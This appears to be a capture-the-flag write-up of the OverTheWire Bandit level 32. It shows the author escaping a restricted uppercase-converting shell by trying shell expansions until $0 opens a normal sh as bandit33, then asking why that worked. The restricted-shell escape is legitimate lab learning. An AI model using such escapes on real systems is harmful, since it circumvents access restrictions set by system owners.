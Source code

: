 ## TRY to assign to a variable - FAIL
```
>> TEST=/bin/bash
>> $TEST
>>
```

## TRY bash expansions and positional parameters - PASS
```
>> !!
sh: 1: !!: not found
>> $!
>> $?
sh: 1: 0: not found
>> !-10
sh: 1: !-10: not found
>> %
sh: 1: %: not found
>> $9
>> $1
>> $2
>> $3
>> $4
sh: 1: $: not found
>> $5
>> $6
>> $7
>> $8
>> $9
>> $0
$ whoami
bandit33
```
Just brute-forced it lol. 

## Investigating the `uppershell`
Remembered that `$0` will expand to the name of the shell. 
But our shell is the `uppershell`.

```
echo $SHELL

/home/bandit32/uppershell
```

Why did it work if our `$SHELL` is pointed to the `uppershell`? It should spawn
another `uppershell` right? Should be similar to what happened when we invoked
an environment variable, it just spawned another shell
```
>> $SHELL
WELCOME TO THE UPPERCASE SHELL
```
